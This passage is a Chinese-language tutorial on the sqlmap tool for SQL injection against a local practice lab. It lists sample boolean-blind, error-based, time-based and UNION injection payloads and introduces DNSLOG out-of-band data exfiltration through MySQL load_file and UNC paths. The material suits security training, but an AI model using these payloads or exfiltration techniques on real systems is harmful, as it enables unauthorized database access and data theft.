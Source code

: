 有些情况下在联合查询中必须指定一个有效和可访问的表名，否则联合查询会执行失败。参数 --union-from 表名

`$ python sqlmap.py -u "http://127.0.0.1/sqli/Less-4/" --union-cols 12-16 --union-char 666 --union-from hello -v 3 --banner`


探测目标指纹信息，参数 -f 或者 --fingerprint，它的效果与 --banner 相似。

`$ python sqlmap.py -u "http://127.0.0.1/sqli/Less-3/?id=1" -f`


## sqlmap的一些payload
假设 Parameter: id (GET)

- Type: boolean-based blind：

`Payload: id=(SELECT (CASE WHEN (8447=8447) THEN 1 ELSE (SELECT 6925 UNION SELECT 4265) END))`

- Type: error-based: 

`id=1 AND (SELECT 8358 FROM(SELECT COUNT(*),CONCAT(0x716b707071,(SELECT (ELT(8358=8358,1))),0x716b766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)`

说明：ELT(N,str1,str2,str3,...) ， Returns str1 if N = 1, str2 if N = 2, and so on. Returns NULL if N is less than 1 or greater than the number of arguments. ELT() is the
complement of FIELD().

说明：FLOOR(X) Returns the largest integer value not greater than X.


- Type: time-based blind

`id=1 AND (SELECT 5177 FROM (SELECT(SLEEP(5)))ynSj)`

- Type: UNION query

`id=-5237 UNION ALL SELECT NULL,NULL,CONCAT(0x716b707071,0x7966736e67425968536f6e4e686d55544e654d4d737473774568637945746b77435063674d525141,0x716b766a71),NULL,NULL,NULL,NULL,NULL-- -`


## DNSLOG 应用

dnslog在sql注入中的应用是一种out-band应用，达到旁路查看执行效果的作用。此外在命令注入、ssrf等中也可应用。
### mysql中的情况
必要条件：
- 目标可以访问dnslog网站,（hyuga、CEYE）
- mysql数据库可以调用 load_file()
- 目标平台为windows（因为windows使用UNC路径）
- 反馈内容受DNS查询限制，太长的需要做字符串切割（例如：substring(str,1,10))



mysql服务端的文件读取有很多的条件限制，主要是mysql数据库的配置，为了安全原因，当读取位于服务器上的文本文件时，文件必须处于数据库目录且可被所有人读取。

可以在mysql命令控制台执行`show variables like '%secure%'` 来查看。会列出`secure_auth`和`secure_file_priv` , 然后使用`select @@secure_file_priv`查看内容。


参数是用来限制LOAD DATA,SELECT ... OUTFILE,DUMPFILE和LOAD_FILE()可以操作的文件夹。
